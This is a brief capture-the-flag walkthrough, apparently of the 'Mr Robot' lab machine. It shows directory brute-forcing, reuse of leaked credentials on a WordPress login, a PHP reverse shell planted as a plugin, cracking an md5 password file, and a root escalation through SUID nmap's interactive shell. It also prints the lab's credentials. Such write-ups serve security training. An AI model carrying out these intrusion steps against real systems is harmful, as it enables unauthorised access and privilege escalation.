 ```bash
export IP=10.10.168.27
```

# Gobuster

```bash
gobuster dir -u http://$IP -w /opt/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py | tee gobuster
```

Found file /license

There was credentials: ```elliot:ER28-0652```. Use it to /login

# WordPress

Users > Krista Gordon > Generate Password

Bio: `another key?`

# Reverse Shell

Create new plugin and use php reverse shell (reverse.php)

To get normal shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
cat /home/robot/password.raw-md5
```

After simple crack md5: 
robot:abcdefghijklmnopqrstuvwxyz

```bash
su -l robot
```

Then just read the key

# Root

To find what I can do
```bash
find / -perm +6000 2>/dev/null | grep '/bin/'
```
nmap!

```bash
nmap --interactive
!sh
cat /root/key-3-of-3.txt
```
